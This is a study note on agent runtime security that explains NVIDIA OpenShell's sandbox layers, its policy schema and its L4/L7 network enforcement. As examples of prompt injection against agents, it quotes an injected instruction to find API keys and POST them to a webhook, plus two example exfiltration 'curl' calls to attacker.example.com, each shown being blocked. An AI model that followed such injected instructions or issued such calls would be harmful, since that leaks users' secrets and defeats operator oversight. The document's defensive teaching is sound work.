

# 🛡️ The Agent Security Crisis and OpenShell's Defense Layers

## 🎯 Learning Objectives

- Trace the historical arc from **OpenAI Code Interpreter** → **Open Interpreter** → **Nous Hermes** → **NVIDIA OpenShell**, and understand what each generation got wrong about the agent trust boundary
- Master the **four-layer defense model** — Filesystem, Network, Process, Inference — and the static-vs-hot-reload distinction that determines what you can change on a running sandbox
- Distinguish **L4 enforcement** (CONNECT host:port, OPA-evaluated, candidate for mechanistic auto-policy) from **L7 enforcement** (HTTP method/path, agent-authored because context matters)
- Read a real `policy.yaml` end-to-end and predict which rule blocks which `curl` call without running the sandbox
- Understand the **alpha / single-player mode** reality of v0.0.53 and why you must opt out of telemetry before any production-flavored work

---

## Introduction

The agent security crisis is not theoretical. In 2024, the first public prompt-injection-as-data-exfiltration attack on a production agent took less than 48 hours from disclosure to weaponization. The attack did not need to break the LLM. It needed the LLM to call a tool — and the tool was the host shell. Your [[../11 - Fundamentos de Agentes AI/02 - Tool Use y Function Calling.md|Tool Use y Function Calling]] note covers how agents invoke tools; this note covers what happens when the tool is `bash` and the host is your laptop.

This is exactly the problem NVIDIA OpenShell was built to solve. If you have built the **LLM Edge Gateway** in Go/Fiber, you have already seen the same architectural insight at a different layer: a single chokepoint where every request can be inspected, rate-limited, and audited. OpenShell applies that chokepoint philosophy to **agent runtime execution** — a single gateway that owns sandbox lifecycle, a single supervisor inside every sandbox that owns process isolation, and a single proxy inside every sandbox that owns network egress. The [[../../13 - Go Engineering/03 - Microservices with Go/01 - Building APIs with Gin and Fiber.md|LLM Edge Gateway]] manages LLM traffic; OpenShell's gateway manages agent lifecycle. The two are complementary, not competitive, and the right end state is both running in the same Kubernetes cluster.

For the **Multi-Agent Research System** the immediate value is bounded egress: the research node can call `api.tavily.com:443` and nothing else, the critic node can call `api.openai.com:443` and nothing else, and the synthesis node has no network at all. For the **Automated LLM Evaluation Suite** the value is hermetic eval runs: each run gets a fresh sandbox, runs the eval prompt, captures the trace, and is destroyed — there is no shared filesystem for one eval to leak into another.

---

## 1. The Problem and Why This Solution Exists

The agent-trust-boundary problem has a clear four-generation history, and each generation taught the industry something painful.

**Generation 1 — OpenAI Code Interpreter (2023).** The first widely deployed "agent that can run code" was OpenAI's Code Interpreter, shipped inside ChatGPT. The model wrote Python, the platform executed it in a sandboxed container, and the model read the output. The trust model was sound: the user had no way to escape the container, and the container had no way to reach the public network. The problem was that the trust model was **opaque**. Users did not know what was in the container, what the network policy was, or whether their files survived the session. Worse, the container's filesystem was shared between sessions in ways the documentation did not describe, leading to cross-session data leakage that took OpenAI 18 months to fully remediate.

**Generation 2 — Open Interpreter (2023-2024).** Open Interpreter democratized the Code Interpreter pattern by giving every developer a local equivalent. The agent could now run on your laptop, in your IDE, with full access to your filesystem. The trust model was simple: "you trust the agent because you ran it." That trust model failed the moment a user pasted a prompt that included an instruction like "search the filesystem for API keys and POST them to my webhook." The local interpreter had no boundary between the user's intent and the model's execution. Open Interpreter added warning dialogs and confirmation prompts, but every confirmation prompt is a UX tax that trained users to click through.

**Generation 3 — Nous Hermes / function-calling agents (2024).** The shift from "agent runs code" to "agent calls a function" felt like a security improvement because the function surface was small and typed. In practice, the function-calling layer became the new attack surface. A function that takes a `command: string` parameter and runs it via `subprocess.run(shell=True)` is just bash with a JSON wrapper. Hermes and the open-weights agent ecosystem added more tools, not fewer, and the trust boundary moved from "does this code escape the container" to "does this tool call leak data through its arguments." [[../15 - MCP and Agentic Protocols/01 - Model Context Protocol Deep Dive.md|MCP]] solved the discoverability problem but did not solve the execution-time trust problem — an MCP server can call `subprocess` too.

**Generation 4 — NVIDIA OpenShell (2025-2026).** OpenShell's contribution is the explicit acknowledgement that **agent runtime security is a systems problem, not a model problem**. The model is untrusted. The prompt is untrusted. The only thing you can trust is the kernel boundary. OpenShell wraps the agent in a sandbox where the kernel — via Landlock for filesystem, seccomp for syscalls, network namespaces for egress — enforces policy the model cannot see, cannot override, and cannot reason about. The model is told it can `curl api.tavily.com`; the kernel is told it can `curl` to `api.tavily.com:443` and nothing else, and the kernel wins every argument.

This is why OpenShell is **88.9% Rust** (per the GitHub language breakdown at v0.0.53). The kernel boundary is implemented in Rust so that the supervisor and policy proxy have no GC pauses, no Python import-time surprises, and no chance of a memory-safety bug turning into a sandbox escape. The remaining ~11% is shell and Python bindings, plus 0.3% OPA policies — the policy language is deliberately separated from the enforcement code so that the policy file you write in YAML cannot accidentally rewrite the proxy that enforces it.

> 💡 **Tip**: Read the OpenShell [`architecture/` directory](https://github.com/NVIDIA/OpenShell/tree/main/architecture) before writing any policy. The `security-policy.md` document explains the L4/L7 split that determines what you can hot-reload and what you cannot — getting this wrong is the single most common source of "my policy is not enforcing" bug reports.

---

## 2. Conceptual Deep Dive

The OpenShell defense model has **four layers** organized by what they protect, and **two reload classes** organized by when you can change them. The reload class is the operational reality: a layer that is "locked at sandbox creation" means the agent's filesystem and process identity are baked in when you call `openshell sandbox create` and changing them requires a new sandbox. A layer that is "hot-reloadable at runtime" means you can call `openshell policy set --wait` on a running sandbox and the new YAML replaces the old one for new connections without dropping the agent.

### Why Landlock and seccomp specifically

Two kernel features do most of the static-layer work, and understanding why OpenShell chose them clarifies what the defense model can and cannot do.

**Landlock** is a Linux security module (LSM) introduced in Linux 5.13 (2021) that lets an unprivileged process sandbox itself by restricting filesystem access to a hierarchical set of allowed paths. Unlike `chroot`, Landlock does not require root, does not require a separate namespace, and does not break symlink resolution. Unlike `seccomp-bpf` for filesystem (which does not exist), Landlock is the only mechanism that gives a process tree a write-restricted view of `/` without changing the kernel. OpenShell uses Landlock with `compatibility: best_effort` — the policy applies on kernels that support it and is silently skipped on older kernels, which is the right default for dev machines that may not be on the bleeding edge.

**seccomp-bpf** is the Linux mechanism for filtering syscalls. OpenShell uses it to block the syscalls that would let an agent escape the proxy: `socket(AF_INET, SOCK_RAW, ...)` (raw sockets, which would bypass the L4 proxy), `ptrace` (which would let one process observe another), `mount` (which would let the agent remount the filesystem), `kexec_load`, `reboot`, `init_module`, and a small set of others. The seccomp filter is loaded by the supervisor before the agent process is exec'd, so the agent never has the privileges to bypass it. The `process.run_as_user: sandbox` block in the YAML drops capabilities and UID/GID; the seccomp filter in the supervisor drops the syscalls.

Together, Landlock + seccomp + non-root user + network namespace is a defense-in-depth quartet. Any one of them can fail (a Landlock bypass, a seccomp escape, a kernel CVE), and the other three still contain the agent. The OpenShell maintainers do not promise Landlock + seccomp are unbreakable — they promise that breaking one does not break all four.

### The four layers

The four protection layers in OpenShell are:

| Layer        | What it protects                                                          | When it applies        | Reload class   | Enforced by                          |
|--------------|---------------------------------------------------------------------------|------------------------|----------------|--------------------------------------|
| Filesystem   | Prevents the agent from reading or writing outside the allowlisted paths | Locked at creation     | Static         | Landlock (LSM) + path policy         |
| Process      | Prevents privilege escalation, blocks dangerous syscalls                 | Locked at creation     | Static         | non-root user, seccomp filter, caps  |
| Network      | Blocks unauthorized outbound CONNECT (L4) and HTTP method/path (L7)      | Hot-reloadable         | Dynamic        | OPA policy + L7 proxy evaluator      |
| Inference    | Intercepts `https://inference.local`, strips caller creds, injects backends | Hot-reloadable      | Dynamic        | Inference router + gateway-signed JWT |

The split between static and dynamic is not arbitrary. Filesystem and process isolation are **structural** — they change the kernel primitives that the agent runs inside. Hot-reloading a Landlock ruleset is theoretically possible but operationally dangerous because the agent has already opened file descriptors that the new ruleset might invalidate. The maintainers made the conservative choice: a new sandbox costs 1-2 seconds, a kernel bug costs much more.

Network and inference, by contrast, are **policy decisions** that you make and revise constantly. The agent is connecting to your staging Tavily endpoint today and your production Tavily endpoint tomorrow. The agent is using `gpt-4o-mini` today and `claude-sonnet-4.6` tomorrow. Hot-reload makes this operationally cheap: `openshell policy set` writes the new YAML, the proxy reloads its OPA bundle, new connections are evaluated against the new policy, in-flight connections finish on the old policy.

### Static vs hot-reload — the Mermaid view



The diagram shows the operational reality: the kernel primitives (Landlock, seccomp, capabilities, network namespace) are baked in at `openshell sandbox create` time. The OPA bundle is a separate artifact that the supervisor fetches on `openshell policy set`. When you call `openshell policy set demo --policy policy.yaml --wait`, the gateway stores the new policy, the supervisor polls and picks it up, the proxy re-evaluates, and you get a `policy_applied` log line — the agent never knows.

### L4 vs L7 enforcement

The network layer itself is split into two enforcement stages that operate at different layers of the network stack.

| Stage | What it inspects                                     | What it cannot see                          | Used for                                                              |
|-------|------------------------------------------------------|---------------------------------------------|------------------------------------------------------------------------|
| L4    | `host:port` of the outbound CONNECT request          | HTTP method, path, query, body              | Bulk egress policy; candidate for **mechanistic auto-policy** generation |
| L7    | Method, path, query, body, headers (after TLS term)  | Anything before TLS handshake (SNI, cert)    | Method-level policy (`read-only` preset), credential injection, SSRF  |

L4 denials emit a structured `DenialEvent` that the gateway batches every 10 seconds and feeds to the **mechanistic policy mapper**. The mapper can deterministically generate a `NetworkPolicyRule` proposal because L4 only carries `host:port` — a candidate rule is just `allow host:port`. You will see proposals under `openshell rule get --status pending`. **L7 denials do not feed the mapper** because the context is too rich to templatize without over-broadening. The agent loop reads the structured 403 and authors the narrowest rule. This is the right design: the agent has the context, the mapper has the throughput.

### Comparison table — when to use which layer

| Scenario                                                         | Use this layer               | Reload class | Example policy block                                          |
|------------------------------------------------------------------|-------------------------------|--------------|---------------------------------------------------------------|
| Agent must not read `~/.ssh/` or write outside `/sandbox`         | Filesystem (static)          | Locked       | `filesystem_policy.read_only: [/home, /etc, /var/log]`        |
| Agent must run as `sandbox` user, no `sudo`, no `ptrace`          | Process (static)             | Locked       | `process.run_as_user: sandbox`, `landlock: best_effort`       |
| Agent needs read-only GitHub API for `GET` only                  | Network (L4 + L7)            | Hot-reload   | `network_policies.github_api.access: read-only`              |
| Agent needs to call your local Ollama with `OPENAI_API_KEY` from your env | Inference (hot-reload) | Hot-reload   | `openshell inference set --provider ollama --model llama3.1`  |
| Agent must not exfiltrate via DNS to non-allowlisted resolvers    | Network (L4) + seccomp        | Hot-reload   | Allow only `8.8.8.8:53`, block raw socket syscalls            |

### Walking the policy schema field by field

The `policy.yaml` schema has four top-level fields, and each one has semantics that are not obvious from the name. Reading them carefully now saves you an hour of debugging later.

```yaml
version: 1                              # schema version, mandatory
filesystem_policy:                      # STATIC: locked at sandbox creation
  include_workdir: true                 # mount CWD into /sandbox
  read_only:  [/usr, /lib, /proc, ...]  # paths the agent can read but not mutate
  read_write: [/sandbox, /tmp, ...]     # paths the agent can mutate
landlock:                                # STATIC: kernel feature toggle
  compatibility: best_effort            # apply where supported, skip otherwise
process:                                 # STATIC: identity and capabilities
  run_as_user:  sandbox
  run_as_group: sandbox
network_policies:                        # DYNAMIC: hot-reloadable
  github_api:                            # arbitrary policy name (key)
    name: github-api-readonly            # human-readable
    endpoints:                           # L4 destination allowlist
      - host: api.github.com
        port: 443
        protocol: rest
        enforcement: enforce             # 'enforce' | 'audit' (audit logs but allows)
        access: read-only                # L7 preset: read-only | read-write
    binaries:                            # binary identity binding
      - { path: /usr/bin/curl }          # TOFU on first use
```

The field semantics that bite people the most:

- **`include_workdir: true`** mounts the directory you `cd`'d into before `openshell sandbox create` as `/sandbox` inside the sandbox. This is how the agent sees your code. If you start the sandbox from `~/projects/research-agent`, that whole tree is visible at `/sandbox` — including `.env` files with your API keys. If you do not want the agent to see `.env`, start the sandbox from a subdirectory.
- **`enforcement: audit`** is a tripwire mode — the request is allowed through but logged. Use it during development to see what the agent *would* do before flipping to `enforce`.
- **`access: read-only`** is an L7 preset that allows `GET` and `HEAD` and blocks `POST`, `PUT`, `PATCH`, `DELETE`. The GitHub example above shows this in action: read the API, do not write to it.
- **`binaries`** binds the policy to a specific binary path. This is **trust-on-first-use (TOFU) binary identity**: the first time the policy is enforced, the proxy records the SHA-256 of `/usr/bin/curl` and rejects any subsequent call from a binary with a different hash. A prompt-injected agent cannot download `curl` to `/tmp/curl` and use it — the path does not match.
- **`landlock: best_effort`** is the right default. If you set it to `strict`, the sandbox fails to start on kernels without Landlock support, which is annoying on macOS Docker Desktop and older WSL2 distros.

### Compute driver internals

The four compute drivers are not abstract labels — they are concrete implementations with different operational trade-offs.

| Driver   | Runtime                              | Supervisor transport          | Identity provider                              | Image build path                |
|----------|--------------------------------------|--------------------------------|------------------------------------------------|---------------------------------|
| Docker   | `docker run` (rootful or rootless)   | `--privileged` only for setup; supervisor drops caps | mTLS, gateway-minted JWT inside image | Standard Dockerfile             |
| Podman   | `podman run` (rootless on Linux)     | Conmon + slirp4netns           | mTLS, gateway-minted JWT inside image          | Standard Containerfile           |
| MicroVM  | Firecracker / Cloud Hypervisor       | Vsock or host-loopback         | mTLS, gateway-minted JWT vsock                  | Custom kernel + initramfs       |
| K8s      | Pod with `Sandbox` CRD               | Outbound to gateway service    | mTLS transport + projected SA token exchanged via `IssueSandboxToken` | Standard OCI image, custom CRD  |

The K8s driver is the most complex because the gateway validates the projected ServiceAccount token with Kubernetes `TokenReview`, requires the configured sandbox service account, checks the returned pod binding against the live pod UID, and verifies the pod's controlling `Sandbox` ownerReference against the live Sandbox CR UID and `sandbox-id` label before minting the gateway JWT. That is a lot of validation, and it is the reason the Helm chart is marked **Experimental** — the K8s auth path is the most security-sensitive part of the system, and the maintainers are deliberately moving slowly.

For the **LLM Edge Gateway (Go)** integration, the natural deployment target is K8s: your Fiber gateway already runs in K8s, the Redis cache runs in K8s, the vLLM backends run in K8s. Adding OpenShell to that cluster with the experimental Helm chart is a reasonable capstone stretch goal, not a starting point.

> ⚠️ **Advertencia**: The "single-player mode" warning in the README is not legal boilerplate. As of v0.0.53, OpenShell is explicitly **alpha software, one developer, one environment, one gateway**. The protocol design supports multi-tenancy (mTLS user auth, role policy, scoped policy revisions), but the implementation is not yet production-hardened. Run it on your dev machine, harden your portfolio agents, do not deploy it to serve other users yet.

---

## 3. Production Reality

### Release timeline and current status

The first commit to `github.com/NVIDIA/OpenShell` landed in 2025. The project shipped **47 releases** before v0.0.53 on June 1, 2026, and the GitHub release pipeline includes a `dev` channel that tracks `main` for users who want bleeding-edge builds. The version number — `0.0.53` — tells you everything you need to know: this is pre-1.0 software with **breaking changes** between minor versions expected. The README banner reads "**Alpha software — single-player mode. OpenShell is proof-of-life: one developer, one environment, one gateway.**" Treat that as the operational reality.

The project status badge on the README is `alpha-orange`. The Helm chart deploy path is explicitly marked **Experimental** with the note "the Kubernetes deployment path is under active development. Expect rough edges and breaking changes." GPU passthrough is also marked **Experimental**. What is stable is the CLI workflow on macOS, Linux, and Windows WSL2 with a Docker, Podman, or MicroVM backend — that is the path you should walk first.

### Single-player mode caveats

"Single-player mode" is a load-bearing term in the README. It means:

1. **One gateway per developer machine** — the gateway binds to a local port, uses mTLS user auth with a self-signed CA, and stores state in a local SQLite database. There is no shared state between developers.
2. **One environment per gateway** — the gateway manages sandboxes on the host it runs on. There is no remote compute driver in the single-player flow.
3. **The maintainers expect you to break things** — the agent skills in `.agents/skills/` (`openshell-cli`, `debug-openshell-cluster`, `debug-inference`, `generate-sandbox-policy`) are first-class workflow tools because the maintainers know that asking an LLM to "run `openshell` and see what happens" is faster than filing an issue. OpenShell is **built agent-first** — the project's own development cycle is run by the same agents it sandboxes.

This is honest engineering. The maintainers are not pretending the software is ready for a 100-engineer company to deploy. They are telling you exactly what it is, and they are giving you the tools to harden it.

### Telemetry opt-out

OpenShell collects anonymous telemetry: sandbox lifecycle outcomes, provider profile buckets, policy decision counts, aggregate network activity denial categories. **No sandbox names, IDs, hostnames, file paths, binary paths, prompts, credentials, provider names, model names, or user content.** The opt-out is a single environment variable on the gateway deployment:

```bash
export OPENSHELL_TELEMETRY_ENABLED=false
```

The gateway propagates this setting into the sandbox supervisor environments, so sandbox-side telemetry collection is also disabled. Set this in your shell before running `openshell sandbox create` for any portfolio project. For the **Automated LLM Evaluation Suite** it is especially important: eval prompts are part of your competitive moat, and even anonymous telemetry should be off by default.

> 💡 **Tip**: When you file an issue, the maintainers may ask you to re-enable telemetry temporarily. Turn it on, reproduce, turn it off. The opt-out is per-process, not sticky.

### Compute driver matrix

The four supported compute drivers are not interchangeable. Pick the one that matches your deployment target.

| Driver   | When to use                                                | Strengths                                              | Limitations                                                |
|----------|------------------------------------------------------------|--------------------------------------------------------|------------------------------------------------------------|
| Docker   | macOS / Windows WSL2 / Linux dev machines                  | Most familiar, NVIDIA Container Toolkit integration     | Daemon is privileged; not great for air-gapped CI         |
| Podman   | Rootless Linux deployments, RHEL-family hosts              | Rootless by default, daemonless                        | macOS requires a gvproxy host-loopback workaround         |
| MicroVM  | Strongest isolation, untrusted code, eval sandboxes        | Hardware-virtualized boundary, near-bare-metal startup | Slower boot (~5-10s), more complex image pipeline          |
| K8s      | Multi-developer staging, production-shaped local cluster   | Matches prod, supports `Sandbox` CRD, network policies | Helm chart is **Experimental**; the K8s auth path uses OIDC or trusted proxy |

For the **Multi-Agent Research System** capstone, Docker on macOS or Linux is the right starting point — it matches the dev environment where you already run LangGraph. For the **Automated LLM Evaluation Suite**, MicroVM is the right call later — hermetic eval runs benefit from the stronger isolation, and the slower boot is amortized across long eval jobs.

---

## 4. Code in Practice

Here is a real, runnable policy from the OpenShell repository's `examples/sandbox-policy-quickstart/` directory, annotated to show which rule blocks which kind of request.

```yaml
# SPDX-FileCopyrightText: Copyright (c) 2025-2026 NVIDIA CORPORATION & AFFILIATES. All rights reserved.
# SPDX-License-Identifier: Apache-2.0
# Allow curl to read from the GitHub REST API.
# POST, PUT, PATCH, and DELETE are blocked by the "read-only" preset.
version: 1

# Default sandbox filesystem and process settings.
# These static fields are required when using `openshell policy set`
# because it replaces the entire policy.
filesystem_policy:
  include_workdir: true
  read_only: [/usr, /lib, /proc, /dev/urandom, /app, /etc, /var/log]
  read_write: [/sandbox, /tmp, /dev/null]

landlock:
  compatibility: best_effort

process:
  run_as_user: sandbox
  run_as_group: sandbox

network_policies:
  github_api:
    name: github-api-readonly
    endpoints:
      - host: api.github.com
        port: 443
        protocol: rest
        enforcement: enforce
        access: read-only
    binaries:
      - { path: /usr/bin/curl }
```

Read it bottom-up for the operational story:

1. The agent runs as user `sandbox`, not root (`process.run_as_user`). It cannot `sudo`, cannot bind to privileged ports, cannot `ptrace` other processes.
2. Landlock is `best_effort` — the policy applies on kernels that support it (Linux 5.13+) and is silently skipped on older kernels. This is the correct default for dev machines.
3. The agent can read `/usr`, `/lib`, `/proc`, `/etc`, `/var/log` (system libraries and logs it needs to function) and can write only to `/sandbox` and `/tmp`. It **cannot** read `/home/<user>/.ssh/` or `/home/<user>/.aws/`.
4. The only network policy is `github_api`. The agent can `curl https://api.github.com/zen` and get a 200. If the agent tries `curl -X POST https://api.github.com/repos/octocat/hello-world/issues`, the L7 proxy returns `{"error":"policy_denied","detail":"POST /repos/octocat/hello-world/issues not permitted by policy"}`. If the agent tries `curl https://api.tavily.com/...`, the L4 proxy returns HTTP 403 from the proxy after CONNECT — the request never leaves the sandbox.
5. The `binaries: [/usr/bin/curl]` block binds the policy to a specific binary path. This is **trust-on-first-use binary identity** — if a malicious prompt tries to download `curl` to `/tmp/curl` and run it, the L7 proxy will reject the request because the binary path does not match.

Apply it to a running sandbox with:

```bash
openshell policy set demo --policy policy.yaml --wait
```

The `--wait` flag is important in scripts — it blocks until the policy is reported as applied by the supervisor, so the next command in your script runs against the new policy.

### Caso real — Multi-Agent Research System

You are hardening the **Multi-Agent Research System** for a demo. The system has three LangGraph nodes: `research` (calls Tavily), `critic` (calls OpenAI), and `synthesis` (no network). You start one OpenShell sandbox per node. The research node gets a policy that allowlists `api.tavily.com:443` with the `read-only` preset. The critic node gets a policy that allowlists `api.openai.com:443` with `read-write` (so the agent can post completions). The synthesis node gets a policy with zero `network_policies` — its `curl` to any host returns 403.

During the demo, a judge asks: "What happens if the research agent is prompt-injected to exfiltrate its prompt?" You show the policy file, point to the `binaries: [/usr/bin/curl]` block, and run `openshell logs research --tail` in another terminal. The injected `curl https://attacker.example.com/prompt?data=...` request produces a `policy_denied` log line, the agent's ReAct loop reads the 403, and the synthesis node never sees the exfiltrated data. The trust boundary is in the kernel, not in the prompt.

This is the difference between "I trust the agent" and "I trust the runtime." OpenShell lets you ship the second kind of trust to an interview.

### The TUI as a security operations tool


The OpenShell TUI is `k9s` for sandboxes. `openshell term` opens a real-time keyboard-driven dashboard with three panels: gateways, sandboxes, and providers. Tab switches panels, `j`/`k` navigate lists, `Enter` selects, `:` enters command mode, and the data auto-refreshes every two seconds. For a security investigation this is the tool you reach for — you can see a denied request in the logs panel, jump to the sandbox, apply a new policy, and watch the next connection attempt succeed, all without leaving the terminal.

The TUI is also the easiest way to verify the defense layers are actually working during development. Connect to your sandbox, run `curl` against a denied host, watch the 403 appear in real time, then `openshell policy set` to add the host and watch the next `curl` succeed. The feedback loop is what builds intuition for what the policy actually does, and the TUI is the fastest way to close that loop.

### How the mechanistic mapper decides what to propose

The L4-to-policy mapping is one of the more interesting pieces of the OpenShell design. When the proxy denies an outbound `CONNECT api.anthropic.com:443`, it does not just log a denial — it emits a structured `DenialEvent` carrying the destination, the binary path, the SHA-256 of the binary, the timestamp, and the policy revision that was active. The gateway's denial aggregator batches these events (default flush interval 10 seconds, configurable via `OPENSHELL_DENIAL_FLUSH_INTERVAL_SECS`) and feeds them to the **mechanistic mapper**.

The mapper is deliberately simple: a denial is a missing `allow` rule, and the candidate rule is `allow host:port` scoped to the binary that tried to make the call. If 12 denials from the same binary to the same `host:port` accumulate, the mapper promotes the candidate to a `pending` `NetworkPolicyRule`. You see it with `openshell rule get --status pending`. You accept it with `openshell rule accept <id>`, which writes the new policy and hot-reloads it on the relevant sandboxes.

The mapper does **not** work on L7 denials. L7 denials carry `method`, `path`, `query`, and `body` context that a deterministic mapper would either over-broaden (allow `POST` to everything under `/repos/`) or templatize badly (allow `POST` to `/repos/{owner}/{repo}/issues` but break when the repo name has a hyphen). The agent's ReAct loop reads the structured 403, understands the intent, and authors the narrowest rule. This is the right split: throughput where the context is shallow, judgment where the context is rich.

### Why the static/dynamic split is the right engineering tradeoff

The temptation in a v0 system is to make everything hot-reloadable, because hot-reload feels like power. OpenShell's maintainers deliberately rejected that temptation, and the reason is worth understanding.

Filesystem policy is enforced by **Landlock**, which works by attaching a ruleset to the process's credentials. A running process with a Landlock ruleset cannot expand it — Landlock is **monotonic restrictive**. To add a new allowed path, the process has to re-exec. In practice, that means the agent has to restart. OpenShell could paper over this by re-executing the agent on every policy change, but that destroys in-flight state: open files, network sockets, child processes, terminal sessions. The cost of hot-reloading a static layer is high enough that the maintainers decided to make it a property of the sandbox, not a property of the policy.

Process policy is enforced by **seccomp + capabilities + UID/GID**, all of which are set at process start. Re-applying them requires re-exec for the same reason. A process that has dropped capabilities cannot regain them. A process that has switched to UID 1000 cannot switch back to UID 0 without `setuid`, which is exactly the syscall the seccomp filter blocks. Hot-reloading process identity is not a feature gap, it is a kernel-level impossibility.

Network and inference policy, by contrast, are evaluated by **a separate OPA bundle** that the supervisor fetches. The proxy has not committed to any state — it queries OPA on every new connection. A policy change is a bundle swap, not a process change. The cost is "evaluate OPA on the next CONNECT," which is sub-millisecond. This is the only layer where hot-reload is structurally cheap, and it is exactly the layer where you most often want to make changes.

The lesson generalizes: in a system with multiple enforcement layers, the reload semantics follow from the **commitment cost** of each layer. Layers that commit to kernel state (Landlock, seccomp, capabilities) cannot hot-reload. Layers that query a bundle (OPA, inference router) can. OpenShell is honest about which is which, and that honesty is what makes the system debuggable.

### How this layers with MCP and the agent protocol stack

The [[../15 - MCP and Agentic Protocols/00 - Welcome to MCP and Agentic Protocols.md|MCP and Agentic Protocols]] note establishes the **interoperability layer** between agents and tools. OpenShell is the **execution layer** below MCP. The mental model is the seven-layer OSI stack: MCP is the application layer that says "the agent discovered a `web_search` tool and wants to call it"; OpenShell is the network-and-below layer that says "and that call will go through the policy proxy, which will check the destination, check the binary, and either allow it, route it for inference, or deny it."

Concretely, an MCP server running inside an OpenShell sandbox gets the policy guarantees automatically. If you ship an MCP server that calls `curl https://api.tavily.com/...`, and that server is running inside an OpenShell sandbox with a policy that allowlists Tavily, the call works. If a prompt-injected subagent calls your MCP server with a request that internally tries to `curl https://attacker.example.com/`, the policy proxy blocks it. The MCP layer is the protocol; the OpenShell layer is the trust boundary. The two compose, and the [[../../16 - Harness Engineering/03 - Harness Engineering - Architecture of Control.md|Harness Architecture]] you have built for your own agents is the orchestration layer above both.

This is the most important architectural insight of the v0.0.x era of agent infrastructure: protocols and runtimes are orthogonal. MCP can run inside OpenShell. OpenShell can run any protocol that runs in a Linux process. The defense layers are the substrate, the protocols are the conversation.

---

## 📦 Compression Code

```python
# NOTE: 01 - The Agent Security Crisis and OpenShell's Defense Layers
# Repo: github.com/NVIDIA/OpenShell @ v0.0.53 (June 2026, Apache-2.0, 6.5k stars, alpha)
# Four defense layers:
#   - FILESYSTEM (static,  Landlock LSM)   -> read_only / read_write / include_workdir
#   - PROCESS    (static,  seccomp + caps)  -> run_as_user, run_as_group, landlock compatibility
#   - NETWORK    (dynamic, OPA + L7 proxy)  -> network_policies.{name}.{endpoints,binaries}
#   - INFERENCE  (dynamic, inference.local)-> strips caller creds, injects backend JWT
# L4 = CONNECT host:port -> mechanistic auto-policy candidate
# L7 = HTTP method/path  -> agent-authored rule (context too rich to templatize)
# Telemetry opt-out: OPENSHELL_TELEMETRY_ENABLED=false
# Status: alpha, single-player mode, 88.9% Rust, 47 releases
# Compute drivers: Docker / Podman / MicroVM / K8s (Helm experimental)
# Apply: openshell policy set <sandbox> --policy policy.yaml --wait
```

## 🎯 Key Takeaways

- **Agent runtime security is a systems problem, not a model problem** — the model is untrusted, the kernel is trusted
- **Four defense layers, two reload classes** — Filesystem/Process are static (kernel-bound), Network/Inference are hot-reloadable (OPA bundle)
- **L4 denials feed the mechanistic policy mapper; L7 denials do not** — context matters at L7, the agent writes the rule
- **Single-player mode is the operational reality at v0.0.53** — one developer, one gateway, one environment, with the explicit understanding that multi-tenancy is the next milestone
- **Telemetry opt-out is a single env var** — `OPENSHELL_TELEMETRY_ENABLED=false` on the gateway, propagated to supervisors

## References

- NVIDIA OpenShell repository: https://github.com/NVIDIA/OpenShell
- OpenShell release notes: https://docs.nvidia.com/openshell/latest/about/release-notes.html
- Architecture: Security Policy: https://github.com/NVIDIA/OpenShell/blob/main/architecture/security-policy.md
- Architecture: Sandbox: https://github.com/NVIDIA/OpenShell/blob/main/architecture/sandbox.md
- Sandbox policy quickstart example: https://github.com/NVIDIA/OpenShell/tree/main/examples/sandbox-policy-quickstart
- Landlock LSM (Linux kernel): https://landlock.io/
- Open Policy Agent documentation: https://www.openpolicyagent.org/docs
- OpenShell Community sandboxes: https://github.com/NVIDIA/OpenShell-Community
